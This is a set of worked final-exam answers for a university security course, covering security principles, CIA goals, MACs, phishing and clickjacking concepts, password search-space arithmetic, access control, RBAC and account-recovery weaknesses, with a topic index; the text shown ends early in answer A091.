# CSE 405 · Sec A Worked Final-Exam Solutions

## How to use this guide

**138 complete answers across six academic sessions.** 84 system/network/general-security answers are newly developed here; 54 questions overlap the previously checked Sec B collection. Each printed question appears once in this guide, under its primary teaching deck; the topic index points to every relevant mixed question. Exam tips appear before the reasoning to keep them with the question when printing.

Question summaries are paraphrases, not official transcriptions or a marking scheme. Consult the linked physical paper page for original code/diagrams. Every indexed question has a worked answer, necessary assumptions, explanation and an exam tip. Related/extension flags identify tasks beyond the local slides rather than silently pretending they are fully taught.

**Notation and limits:** toy memory examples use the paper’s stated 32-bit conventions; actual compiler/ABI layouts can differ. Probabilities identify their assumptions. Hashes, MACs and signatures provide different guarantees. A network address is not an authenticated identity. Several “guaranteed attack” requests are under-specified; the answers explain the intended mechanism and the conditions needed for it.

The PDF uses XeLaTeX typesetting; this HTML embeds native MathML and diagrams for offline reading in a browser supporting MathML. The Markdown is editable and renders dollar math on GitHub. All sources, analysis and build tools stay within the section layout.

## Navigation by slide deck and exact topic

**Introduction** — [Ch01-Introduction.pdf](../slides/Ch01-Introduction.pdf)

**CIA, attacker models and security scope:** [A013 · 2023–24 Q5(a)](#a013); [A043 · 2021–22 Q1(a)](#a043); [A046 · 2021–22 Q2(a)](#a046); [A070 · 2020–21 Q1(b)](#a070)

**Security principles and scenario analysis:** [A002 · 2023–24 Q1(b)](#a002); [A021 · 2022–23 Q1(a)](#a021); [A071 · 2020–21 Q1(c)](#a071); [A073 · 2020–21 Q2(b)](#a073); [A087 · 2020–21 Q8(a)](#a087)

**Access matrices, ACLs, capabilities and RBAC:** [A025 · 2022–23 Q2(b)](#a025); [A066 · 2021–22 Q8(a)](#a066); [A072 · 2020–21 Q2(a)](#a072)

**Password guessing, recovery and search-space calculations:** [A024 · 2022–23 Q2(a)](#a024); [A091 · 2019–20 Q1(c)](#a091); [A093 · 2019–20 Q2(b)](#a093)

**Physical Security** — [Ch02-Physical-Security.pdf](../slides/Ch02-Physical-Security.pdf)

**Pin-tumbler locks and master-key extensions:** [A128 · 2018–19 Q6(b)](#a128); [A129 · 2018–19 Q7(a)](#a129); [A130 · 2018–19 Q7(b)](#a130)

**Biometrics, authentication factors, SIM and RFID:** [A044 · 2021–22 Q1(b)](#a044); [A073 · 2020–21 Q2(b)](#a073); [A131 · 2018–19 Q8(a)](#a131); [A134 · 2018–19 Q9(b)](#a134)

**Faraday shielding and physical information leakage:** [A132 · 2018–19 Q8(b)](#a132)

**Operating Systems Security** — [Ch03-OS-Security.pdf](../slides/Ch03-OS-Security.pdf)

**OS trust, paging, boot and persistent memory images:** [A053 · 2021–22 Q4(a)](#a053); [A071 · 2020–21 Q1(c)](#a071); [A074 · 2020–21 Q2(c)](#a074); [A075 · 2020–21 Q3(a)](#a075); [A094 · 2019–20 Q2(c)](#a094); [A102 · 2019–20 Q5(b)](#a102)

**Buffer Overflow** — [Ch03-BufferOverflow.pdf](../slides/Ch03-BufferOverflow.pdf)

**Stack/heap corruption and buffer-overflow payload reasoning:** [A001 · 2023–24 Q1(a)](#a001); [A005 · 2023–24 Q2(b)](#a005); [A075 · 2020–21 Q3(a)](#a075); [A087 · 2020–21 Q8(a)](#a087); [A090 · 2019–20 Q1(b)](#a090); [A135 · 2018–19 Q10](#a135)

**StackGuard, ASLR and memory-corruption defenses:** [A005 · 2023–24 Q2(b)](#a005); [A083 · 2020–21 Q5(c)](#a083); [A086 · 2020–21 Q7(c)](#a086); [A134 · 2018–19 Q9(b)](#a134)

**Return-to-libc and calling conventions:** [A083 · 2020–21 Q5(c)](#a083); [A085 · 2020–21 Q6(c)](#a085)

**Format-string reads and writes:** [A133 · 2018–19 Q9(a)](#a133)

**Filesystem Security** — [Ch03-FilesystemSecurity.pdf](../slides/Ch03-FilesystemSecurity.pdf)

**Unix permissions, setuid and filesystem access:** [A087 · 2020–21 Q8(a)](#a087); [A097 · 2019–20 Q3(c)](#a097)

**Malware** — [Ch04-Malware.pdf](../slides/Ch04-Malware.pdf)

**Backdoors, logic bombs and insider abuse:** [A112 · 2018–19 Q1(c)](#a112); [A118 · 2018–19 Q3(a)](#a118)

**Encrypted, polymorphic and metamorphic viruses:** [A057 · 2021–22 Q5(a)](#a057); [A096 · 2019–20 Q3(b)](#a096); [A114 · 2018–19 Q2(a)](#a114)

**Worm propagation, epidemic models and case studies:** [A008 · 2023–24 Q3(b)](#a008); [A033 · 2022–23 Q4(d)](#a033); [A069 · 2020–21 Q1(a)](#a069); [A077 · 2020–21 Q3(c)](#a077); [A095 · 2019–20 Q3(a)](#a095); [A117 · 2018–19 Q2(d)](#a117)

**Botnet creation, C&C and malicious agents:** [A059 · 2021–22 Q5(c)](#a059); [A079 · 2020–21 Q4(b)](#a079); [A092 · 2019–20 Q2(a)](#a092); [A121 · 2018–19 Q3(d)](#a121)

**Rootkit cloaking, hooking and DLL injection:** [A028 · 2022–23 Q3(b)](#a028); [A049 · 2021–22 Q3(a)](#a049); [A116 · 2018–19 Q2(c)](#a116)

**Adware, spyware and malware economics:** [A029 · 2022–23 Q3(c)](#a029); [A057 · 2021–22 Q5(a)](#a057); [A095 · 2019–20 Q3(a)](#a095); [A115 · 2018–19 Q2(b)](#a115)

**Network Security** — [Ch05-NetworkSecurity.pdf](../slides/Ch05-NetworkSecurity.pdf)

**ARP spoofing, MITM and detection:** [A004 · 2023–24 Q2(a)](#a004); [A078 · 2020–21 Q4(a)](#a078); [A119 · 2018–19 Q3(b)](#a119); [A124 · 2018–19 Q4(c)](#a124)

**Switch MAC-table flooding and port security:** [A027 · 2022–23 Q3(a)](#a027); [A099 · 2019–20 Q4(b)](#a099)

**DHCP starvation, spoofing and defenses:** [A004 · 2023–24 Q2(a)](#a004); [A023 · 2022–23 Q1(c)](#a023)

**TCP hijacking, spoofed segments and optimistic ACKs:** [A006 · 2023–24 Q2(c)](#a006); [A007 · 2023–24 Q3(a)](#a007); [A010 · 2023–24 Q4(a)](#a010); [A060 · 2021–22 Q6(a)](#a060); [A100 · 2019–20 Q4(c)](#a100); [A119 · 2018–19 Q3(b)](#a119); [A120 · 2018–19 Q3(c)](#a120)

**DoS/DDoS, reflection and resource exhaustion:** [A007 · 2023–24 Q3(a)](#a007); [A010 · 2023–24 Q4(a)](#a010); [A070 · 2020–21 Q1(b)](#a070); [A092 · 2019–20 Q2(a)](#a092); [A094 · 2019–20 Q2(c)](#a094)

**SYN flooding and stateless SYN cookies:** [A007 · 2023–24 Q3(a)](#a007); [A022 · 2022–23 Q1(b)](#a022); [A063 · 2021–22 Q7(a)](#a063)

**DNS Security** — [Ch06-1-NetworkDNS.pdf](../slides/Ch06-1-NetworkDNS.pdf)

**DNS poisoning, Kaminsky races, pharming and DNSSEC:** [A007 · 2023–24 Q3(a)](#a007); [A009 · 2023–24 Q3(c)](#a009); [A030 · 2022–23 Q4(a)](#a030); [A061 · 2021–22 Q6(b)](#a061); [A098 · 2019–20 Q4(a)](#a098); [A122 · 2018–19 Q4(a)](#a122); [A123 · 2018–19 Q4(b)](#a123)

**Firewalls, Tunneling and IDS** — [Ch06-2-FW-Tunneling-IDS-REDUCED.pdf](../slides/Ch06-2-FW-Tunneling-IDS-REDUCED.pdf)

**Reconnaissance, fingerprinting and vulnerability assessment:** [A026 · 2022–23 Q2(c)](#a026); [A067 · 2021–22 Q8(b)](#a067); [A076 · 2020–21 Q3(b)](#a076)

**Firewall state, evasion and defense limits:** [A007 · 2023–24 Q3(a)](#a007); [A011 · 2023–24 Q4(b)](#a011); [A032 · 2022–23 Q4(c)](#a032); [A068 · 2021–22 Q8(c)](#a068); [A079 · 2020–21 Q4(b)](#a079)

**VPN and IPsec AH/ESP encapsulation:** [A058 · 2021–22 Q5(b)](#a058); [A111 · 2018–19 Q1(b)](#a111)

**Intrusion detection, base rates and audit data:** [A080 · 2020–21 Q4(c)](#a080); [A094 · 2019–20 Q2(c)](#a094); [A101 · 2019–20 Q5(a)](#a101); [A102 · 2019–20 Q5(b)](#a102); [A124 · 2018–19 Q4(c)](#a124)

**Honeypot topology, monitoring and overhead:** [A031 · 2022–23 Q4(b)](#a031); [A059 · 2021–22 Q5(c)](#a059); [A062 · 2021–22 Q6(c)](#a062); [A103 · 2019–20 Q5(c)](#a103); [A125 · 2018–19 Q4(d)](#a125)

**Cryptography, Hashes and Digital Signatures** — [Crypto-Hash-DigSign.pdf](../slides/Crypto-Hash-DigSign.pdf)

**DES/AES internals, P/S boxes and multiple-DES strength:** [A055 · 2021–22 Q4(c)](#a055); [A056 · 2021–22 Q4(d)](#a056); [A127 · 2018–19 Q6(a)](#a127)

**Block-cipher modes, CBC and ciphertext manipulation:** [A014 · 2023–24 Q5(b)](#a014); [A034 · 2022–23 Q5(a)](#a034); [A048 · 2021–22 Q2(d)](#a048); [A126 · 2018–19 Q5(b)](#a126)

**Symmetric/public-key models and Caesar as symmetric encryption:** [A045 · 2021–22 Q1(d)](#a045); [A052 · 2021–22 Q3(d)](#a052)

**Modular arithmetic, Fermat, Euler and inverses:** [A105 · 2019–20 Q7(a)](#a105); [A106 · 2019–20 Q7(b)](#a106)

**RSA encryption and correctness:** [A016 · 2023–24 Q7(b)](#a016); [A017 · 2023–24 Q7(c)](#a017); [A107 · 2019–20 Q7(c)](#a107)

**Hash properties, collisions and birthday security:** [A035 · 2022–23 Q5(b)](#a035); [A040 · 2022–23 Q8(a)](#a040); [A050 · 2021–22 Q3(b)](#a050); [A051 · 2021–22 Q3(c)](#a051); [A088 · 2020–21 Q8(b)](#a088); [A104 · 2019–20 Q6(b)](#a104); [A108 · 2019–20 Q8(a)](#a108)

**MAC/HMAC and authenticated data:** [A013 · 2023–24 Q5(a)](#a013); [A018 · 2023–24 Q8(a)](#a018); [A035 · 2022–23 Q5(b)](#a035); [A040 · 2022–23 Q8(a)](#a040); [A050 · 2021–22 Q3(b)](#a050); [A054 · 2021–22 Q4(b)](#a054); [A081 · 2020–21 Q5(a)](#a081)

**Diffie–Hellman calculations and authentication:** [A015 · 2023–24 Q6(a)](#a015); [A037 · 2022–23 Q6(a)](#a037); [A047 · 2021–22 Q2(c)](#a047); [A109 · 2019–20 Q8(b)](#a109)

**Digital signatures and signing-key security:** [A017 · 2023–24 Q7(c)](#a017); [A037 · 2022–23 Q6(a)](#a037); [A050 · 2021–22 Q3(b)](#a050); [A052 · 2021–22 Q3(d)](#a052); [A089 · 2019–20 Q1(a)](#a089); [A108 · 2019–20 Q8(a)](#a108); [A113 · 2018–19 Q1(d)](#a113)

**Certificates, CA trust and key binding:** [A003 · 2023–24 Q1(c)](#a003); [A012 · 2023–24 Q4(c)](#a012); [A065 · 2021–22 Q7(c)](#a065); [A110 · 2018–19 Q1(a)](#a110)

**Web and Database Security** — [WebDB-security.pdf](../slides/WebDB-security.pdf)

**HTTP/HTTPS and browser trust:** [A012 · 2023–24 Q4(c)](#a012); [A090 · 2019–20 Q1(b)](#a090)

**SQL injection and prepared statements:** [A019 · 2023–24 Q8(c)](#a019); [A082 · 2020–21 Q5(b)](#a082); [A132 · 2018–19 Q8(b)](#a132); [A136 · 2018–19 Q11(a)](#a136); [A137 · 2018–19 Q11(b)](#a137)

**Stored/reflected XSS and injected scripts:** [A007 · 2023–24 Q3(a)](#a007); [A020 · 2023–24 Q8(d)](#a020); [A036 · 2022–23 Q5(c)](#a036); [A039 · 2022–23 Q7(c)](#a039); [A084 · 2020–21 Q6(a)](#a084); [A138 · 2018–19 Q12(a)](#a138)

**CSRF and cookie-authenticated requests:** [A036 · 2022–23 Q5(c)](#a036); [A038 · 2022–23 Q7(a)](#a038); [A084 · 2020–21 Q6(a)](#a084)

**Phishing, homographs and UI deception:** [A013 · 2023–24 Q5(a)](#a013); [A041 · 2022–23 Q8(b)](#a041); [A042 · 2022–23 Q8(c)](#a042); [A064 · 2021–22 Q7(b)](#a064); [A068 · 2021–22 Q8(c)](#a068); [A123 · 2018–19 Q4(b)](#a123); [A132 · 2018–19 Q8(b)](#a132)

## Numerical and conceptual checkpoints

| Exercise | Checkpoint |
|---|---|
| Three independently mastered pin chambers | $2^3=8$ total theoretical profiles, seven additional |
| Common master lock | Bottom pins (2,2,5,2,6); wafers (2,2,0,3,0) |
| SI worm model | $I(t)=N/[1+((N-I_0)/I_0)e^{-\beta Nt}]$ |
| IDS example: prevalence 0.1%, sensitivity 99%, FPR 1% | About 9.02% of alarms are true positives |
| Toy printf cursor model | secret1 slot 6; controlled first input word slot 13 |
| Toy alphabet-only return | 0x41424349 encodes as little-endian ICBA; clean EBP restoration is a separate constraint |
| Known-salt password | Salt is public; it prevents shared precomputation, not guessing a single account |

## Introduction

Primary deck: [Ch01-Introduction.pdf](../slides/Ch01-Introduction.pdf)

<a id="a002"></a>
### A002 · 2023–24 · Q1(b)

**Match five scenarios to security principles · 10 marks**

Original: [past-paper PDF p. 2](../../CSE405-Security_Merged.pdf#page=2). Sitting date: 06 September 2025.

**Topics:** Security principles and scenario analysis.

> **Question summary:** Match principles to a valet key, bypassable laptop screen lock, irreversible water-damage sticker, bank recovery questions overridden by a representative, and encryption at rest and in transit.

**Exam tip.** Give the principle followed by the causal link to the example, rather than a list of principle names.

| Scenario | Principle and explanation |
|---|---|
| Valet key opens ignition/doors but not trunk | **Least privilege:** grant the driver the subset of access required for parking. |
| Specialized equipment bypasses screen lock | **Threat model and work factor:** a screen lock addresses some casual-access threats; physical/offline attackers require stronger protections. Compare attack cost with asset value. Full-disk encryption and boot trust address additional paths. |
| Sticker remains red after water exposure | **Compromise recording:** preserve evidence of a violation when prevention is impractical. It detects the condition; it does not prevent liquid damage or prove intent. |
| Representative waives a strong recovery answer | **Human factors and complete mediation:** a human fallback becomes the weakest authentication path. A strong secret is ineffective if an unverified story bypasses it. Use a consistent, independently verified recovery process. |
| Encrypt internal/external traffic and stored data | **Defense in depth:** protect different exposure paths and trust boundaries. Access control, key separation and monitoring remain necessary if an endpoint is compromised. |

Shannon's maxim means assuming the adversary knows the system; none of these scenarios is primarily solved by hiding its design. Several principles can fit, but explain the concrete failure or protection.

<a id="a013"></a>
### A013 · 2023–24 · Q5(a)

**Short concepts; answer any three of five · 15 marks**

Original: [past-paper PDF p. 7](../../CSE405-Security_Merged.pdf#page=7). Sitting date: 06 September 2025.

**Topics:** CIA, attacker models and security scope; MAC/HMAC and authenticated data; Phishing, homographs and UI deception.

> **Question summary:** Briefly explain any three, with diagrams where appropriate: (i) the CIA properties of cryptography, (ii) confusion and diffusion, (iii) message authentication code, (iv) homograph phishing attack, (v) clickjacking.

**Coverage:** related application/extension. Only the CIA and MAC choices are explicit in Sec A; confusion/diffusion, homographs and clickjacking extend the decks. The 15 marks belong to the whole optional subquestion.

**Exam tip.** For each 5-mark concept give a definition, mechanism/example and limitation or defense. Do not use “MAC encrypts the message” or confuse cryptographic authenticity with service availability.

**Answer all five for revision; the exam asks for any three.**

**(i) Cryptographic CIA.** Confidentiality means an unauthorized observer learns no protected message content. Integrity means unauthorized changes are detected. Authenticity establishes the claimed source. Encryption addresses confidentiality; MACs/signatures address integrity and authenticity. In this lecture, A means **authenticity**. In the general information-security triad it means **availability**, the ability of legitimate users to obtain service; mention the convention if necessary.

**(ii) Confusion and diffusion.** Confusion makes the relationship between key and ciphertext complex, typically through nonlinear substitution. Diffusion spreads each plaintext symbol’s influence across many ciphertext symbols, typically through permutations and linear mixing over repeated rounds. AES SubBytes contributes nonlinearity; ShiftRows/MixColumns spread influence. A cipher with only linear operations can remain easy to solve despite visibly mixing symbols.

**(iii) MAC.** Alice and Bob share a secret K. Alice sends M and T=MAC(K,M). Bob recomputes the tag and accepts only on a match. Without K, an attacker should not produce a valid tag for a new message, even after seeing tags on chosen messages. A MAC provides no encryption; both key holders can create tags, so it does not establish third-party non-repudiation. Include a sequence number in the authenticated data to address replay.

**(iv) Homograph phishing.** A deceptive domain uses visually similar characters, such as a Cyrillic letter resembling a Latin letter, to imitate a trusted domain. A victim sees a familiar-looking address and submits credentials to the attacker. Similar appearance does not imply the same DNS name or origin. Password managers tied to exact origins and phishing-resistant authenticators help; a padlock alone only authenticates the domain actually visited.

**(v) Clickjacking.** An attacker positions a transparent target-site iframe so a sensitive button lies beneath an enticing visible button. The user intends the visible action but clicks the hidden target. No reading of the cross-origin frame is required. The target can restrict framing with CSP `frame-ancestors` or X-Frame-Options.



<a id="a021"></a>
### A021 · 2022–23 · Q1(a)

**Least privilege versus separation; why record compromise? · 10 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** Security principles and scenario analysis.

> **Question summary:** Differentiate least privilege and separation of privilege, and explain the importance of compromise recording with examples.

**Exam tip.** Use two distinct examples; do not describe both principles merely as “restrict access.”

**Least privilege** minimizes the rights of each subject/process. A photo editor receives access to selected pictures rather than every user file; a service runs without administrator rights.

**Separation of privilege/responsibility** requires multiple independent conditions or parties for a sensitive operation. Releasing a payment may require approvals from both an initiator and a separate reviewer. Giving one administrator a smaller permission set is least privilege; requiring two approvals is separation.

**Compromise recording** captures evidence of violations: protected authentication/access logs, change journals, IDS events and physical surveillance. Perfect prevention is rarely achievable. Records support timely detection, reconstruction, containment, accountability and recovery. A record is useful only if it has trustworthy timestamps, integrity protection, appropriate retention and someone responsible for responding. Forwarding logs to a protected collector limits deletion by a compromised host.

<a id="a024"></a>
### A024 · 2022–23 · Q2(a)

**Brute-force throughput under a password-expiration policy · 12 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** Password guessing, recovery and search-space calculations.

> **Question summary:** A password policy requires uppercase, lowercase, numeric and special characters, minimum length 10, with monthly password changes. Estimate the minimum guesses per second needed to crack a credential, showing the calculations.

**Coverage:** related application/extension. The question does not specify the exact special-character alphabet or a precise success probability. State assumptions. Lecture 8 covers guessing attacks but not this exact counting problem.

**Exam tip.** Write the assumptions and distinguish N/T from N/(2T). A monthly reset policy does not specify the attacker’s desired success probability.

**The prompt needs assumptions for a numerical answer.** It gives minimum length 10 but no maximum, no count of permitted special symbols, and no required success probability. An exhaustive guarantee over all permitted lengths has no finite fixed search space. The conventional exam estimate uses exactly ten uniformly chosen characters and a 30-day month.

Assume 26 uppercase + 26 lowercase + 10 digits + 32 non-space special characters, giving alphabet size A=94. A common coarse estimate is:

$$
\begin{aligned}N&=94^{10}=53\,861\,511\,409\,489\,970\,176,\\T&=30\cdot24\cdot3600=2\,592\,000\ \mathrm{s},\\r_{\mathrm{worst}}&=\frac{N}{T}\approx2.078\times10^{13}\ \mathrm{guesses/s},\\r_{\mathrm{mean}}&=\frac{N}{2T}\approx1.039\times10^{13}\ \mathrm{guesses/s}.\end{aligned}
$$

**If the policy requires at least one character from every class**, count valid ten-character strings rather than all $94^{10}$. Inclusion–exclusion gives:

$$
\begin{aligned}N_{\mathrm{valid}}&=\sum_{S\subseteq\{U,L,D,S_p\}}(-1)^{|S|}\left(94-\sum_{c\in S}|c|\right)^{10}\\&=32\,333\,391\,317\,360\,640\,000,\\(|U|,|L|,|D|,|S_p|)&=(26,26,10,32).\end{aligned}
$$

The two 26-sized classes are distinct subsets even though their sizes coincide. Then:

$$
\begin{aligned}\frac{N_{\mathrm{valid}}}{T}&\approx1.247\times10^{13}\ \mathrm{guesses/s},\\\frac{N_{\mathrm{valid}}}{2T}&\approx6.237\times10^{12}\ \mathrm{guesses/s}.\end{aligned}
$$

For a uniform space of N candidates and no repeated guesses, success after g guesses is approximately min(g/N,1). Thus a target success fraction α requires roughly αN/T guesses/s; “crack within one month” must identify whether α is average-case or near certainty. Human-selected passwords are not uniform, so dictionary guessing may cost far less.

<a id="a025"></a>
### A025 · 2022–23 · Q2(b)

**Why owner-only access cannot replace access-control systems · 12 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** Access matrices, ACLs, capabilities and RBAC.

> **Question summary:** Give at least two scenarios in which users other than a file owner need access, refuting a proposal to restrict all file permissions to owners only.

**Exam tip.** State which operation the non-owner needs and which operation must remain forbidden.

1. **Shared project:** several collaborators need to read/write a common report or repository while other users must be excluded. Owner-only access would prevent collaboration or encourage unsafe account/password sharing.
2. **System executables and libraries:** administrator-owned tools must be readable/executable by ordinary users while modifications remain administrator-only. Making every user an owner would undermine integrity.
3. **Backup and service accounts:** a backup worker may need read-only access across selected directories; a web service may need to read published files but not edit them.

An access matrix represents subject/object rights. Per-object ACLs express the column compactly; roles/groups reduce repeated administration. Grant only required operations, deny unnecessary writes and separate ownership/administration from usage. Permission checks must use the requesting identity and honor revocation.

<a id="a043"></a>
### A043 · 2021–22 · Q1(a)

**Information, IT and cybersecurity scope diagram · 5 marks**

Original: [past-paper PDF p. 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023.

**Topics:** CIA, attacker models and security scope.

> **Question summary:** Illustrate the relationship between information security, cybersecurity and IT security with a Venn diagram.

**Coverage:** related application/extension. The introduction defines CIA and security, but does not specify this three-set taxonomy.

**Exam tip.** Put examples in the regions. Do not claim one taxonomy is mathematically mandatory when definitions vary.

Use an explicitly stated convention: **information security** protects information in all forms (paper, speech and digital); **IT security** protects computing systems and the data/services they process; **cybersecurity** protects activities/assets exposed through cyberspace and interconnected systems.

These fields overlap strongly but are not universally defined as three strict nested sets. A useful conceptual Venn diagram puts digital information protection in the common intersection. Paper-file confidentiality is in information security outside the digital overlap; network-service disruption and connected physical-device safety illustrate cybersecurity concerns beyond protecting information alone.



The deck's CIA framework applies throughout the overlap. Label this as a conceptual convention, since the supplied slides do not define a unique formal set relationship.

<a id="a046"></a>
### A046 · 2021–22 · Q2(a)

**Attacks versus information-security CIA goals · 5 marks**

Original: [past-paper PDF p. 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023.

**Topics:** CIA, attacker models and security scope.

> **Question summary:** Categorize security attacks with respect to C.I.A. goals.

**Exam tip.** Map behaviors to goals instead of treating attack classes as disjoint. Lecture 2’s cryptographic use of A for authenticity is a different convention.

In this general security question, CIA means **confidentiality, integrity and availability**.

| Goal violated | Meaning | Example attacks |
|---|---|---|
| Confidentiality | Unauthorized disclosure | Sniffing plaintext, reading stolen files, data-extracting SQL injection |
| Integrity | Unauthorized alteration or false data | Modifying a bank transfer, inserting false records, undetected message substitution |
| Availability | Denial of timely legitimate service | DDoS, deleting critical files, exhausting connections |

Passive eavesdropping primarily threatens confidentiality. Active modification/fabrication primarily threatens integrity. Interruption/resource exhaustion primarily threatens availability. One attack can affect several goals: ransomware can both deny file access and disclose stolen information.

<a id="a066"></a>
### A066 · 2021–22 · Q8(a)

**Delegation through GRANT OPTION and revocation dependencies · 12 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** Access matrices, ACLs, capabilities and RBAC.

> **Question summary:** Analyze GRANT SELECT ON employees TO Alice WITH GRANT OPTION and revoke access safely when Alice leaves.

**Coverage:** related application/extension. Access-control delegation is an application of matrices/ACLs; DBMS-specific grant/revoke syntax is not taught in WebDB-security.

**Exam tip.** Revoke the delegation chain as well as the departing user's own privilege, and name the assumed SQL dialect.

The statement lets Alice read `employees` and **delegate SELECT** to other principals. Read-only access to her own session is therefore not the whole authority: she can create additional readers, including an account she retains after departure.

On departure, remove Alice's direct SELECT and grant option, disable her authentication, terminate active sessions where needed and audit every grant derived from her authority. In SQL systems supporting dependency-aware cascading revocation, the intended form is:

```sql
REVOKE SELECT ON employees FROM Alice CASCADE;
```

Exact syntax/behavior is DBMS-dependent. PostgreSQL supports cascading dependent grants; MySQL has different privilege/revocation semantics and does not accept this generic clause as a portable solution. Inspect the actual grant graph and remove derived rights using the engine's mechanisms. Another independent grant to a recipient may survive revocation of Alice's grant path.

Revocation cannot erase previously copied data. Minimize exposure in advance: avoid unnecessary grant option, use managed roles, limit sensitive columns/rows and review grants.

[PostgreSQL REVOKE semantics](https://www.postgresql.org/docs/current/sql-revoke.html).

<a id="a070"></a>
### A070 · 2020–21 · Q1(b)

**Selective packet dropping against a competitor · 12 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** CIA, attacker models and security scope; DoS/DDoS, reflection and resource exhaustion.

> **Question summary:** An ISP deliberately drops 25% of a competing provider’s VoIP packets traversing its routers. Identify the attack.

**Exam tip.** Availability includes timely usable service. A 25% degradation can be a DoS attack without a total outage.

This is a **selective denial-of-service/degradation attack** by an on-path network operator. It violates availability by making the competitor's voice calls unreliable even if the service is not completely unavailable. The operator abuses a trusted forwarding position; the attacker need not impersonate an endpoint or decrypt the voice content.

Packet loss produces gaps, jitter/retransmissions where applicable and poor call quality. Encrypting VoIP can protect content and integrity but cannot force a malicious router to forward packets. Detection compares loss/quality across paths and traffic classes; mitigation can include independent paths/providers and routing around the hostile infrastructure.

<a id="a071"></a>
### A071 · 2020–21 · Q1(c)

**Why compromise recording matters and which tools support it · 11 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** Security principles and scenario analysis; OS trust, paging, boot and persistent memory images.

> **Question summary:** Explain the importance of compromise recording and name tools used for it.

**Exam tip.** A log that nobody checks or an attacker can silently erase is weak compromise recording.

Prevention can fail, so systems need evidence that a violation occurred. Compromise records support detection, incident reconstruction, identification of affected accounts/assets, containment and recovery. They can also deter abuse and support accountability.

Examples include OS security/event logs, authentication and privilege-change auditing, application/database access logs, file-integrity monitoring, network flow/packet metadata, IDS alerts and physical surveillance. A protected central log collector helps preserve evidence when an individual host is compromised.

Record reliable timestamps, actor/subject, action, target, result and source context. Protect log integrity/access, monitor collector health, retain relevant records and connect alerts to a response process. Logging everything indiscriminately can create privacy, storage and analysis problems; select evidence according to the threat model.

<a id="a072"></a>
### A072 · 2020–21 · Q2(a)

**RBAC diagram, benefits and limitations · 12 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** Access matrices, ACLs, capabilities and RBAC.

> **Question summary:** Define role-based access control with a figure, benefits and drawbacks.

**Exam tip.** Separate user-to-role assignment from role-to-permission assignment in the diagram.

RBAC associates permissions with organizational **roles**, then assigns users to roles. A user's permitted actions come from their active role memberships rather than a separately edited list for every object.

```text
Alice --+--> Accountant --> read ledger, enter transactions
Bob ----+ 
Carol ------> Auditor ----> read ledger, view audit trail
```

Roles can have hierarchies; constraints can enforce separation of duties, such as preventing one person from both initiating and approving a payment.

Benefits: simpler onboarding/offboarding, consistent least-privilege job profiles, reusable policy and more understandable audits. Limitations: role explosion when exceptions proliferate, stale memberships after job changes, conflicts between accumulated roles and difficulty expressing fine-grained context such as time, location or a particular patient's care relationship.

A role name alone is not a security control: authenticate the user, authorize each operation and review role assignments. Deny unauthorized actions by default.

<a id="a073"></a>
### A073 · 2020–21 · Q2(b)

**Mismatched boarding-pass and identity checks · 12 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** Security principles and scenario analysis; Biometrics, authentication factors, SIM and RFID.

> **Question summary:** Explain how online-printable boarding passes permit a no-fly-list bypass in the described airport checks, and fix the weakness.

**Coverage:** related application/extension. An application of complete mediation/authentication; the exact airport workflow is in the paper.

**Exam tip.** Show what each checkpoint sees and why two individually plausible documents are not sufficient together.

The described checks fail to bind **the same person, reservation and boarding pass** across all stages. A listed traveler could book under an unlisted identity. At the ID checkpoint, an altered paper pass bearing the traveler's real name might satisfy the local name comparison if the checkpoint does not validate the reservation. At boarding, the traveler presents the genuine pass for the unlisted booking if the gate checks the reservation but not the person's ID.

This is an illustrative failure of **complete mediation and consistent identity binding**. It depends on the precise split checks given in the problem; it is not a statement about every airport's procedures.

Authenticate the pass/barcode against the reservation system; bind it to the verified traveler and current screening result; recheck list eligibility and identity at the stages that authorize travel; prevent substitution/reuse after checking. A digital signature on the pass protects its fields only if the scanner verifies it and ties it to the person presenting it.

<a id="a091"></a>
### A091 · 2019–20 · Q1(c)

**Public security questions and password-reset account takeover · 11 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Password guessing, recovery and search-space calculations.

> **Question summary:** Attackers reset Sarah Palin’s email password using publicly available personal information such as birthday, ZIP code and security-question answers. Identify the attack and evaluate the security of this password-reset feature.

**Coverage:** related application/extension. Account-recovery security is related to Lecture 8 password guessing; the specific recovery scenario is not taught in the deck. The CT4 guide pp. 52–53 discusses it.

**Exam tip.** Name the recovery-path failure rather than calling this password brute force. An excellent normal password cannot compensate for a publicly guessable reset mechanism.

This is **account takeover through weak knowledge-based account recovery**, aided by impersonation/social engineering. The attackers did not need to brute-force the existing password: they exploited an alternate reset path that treated publicly discoverable facts as identity proof.

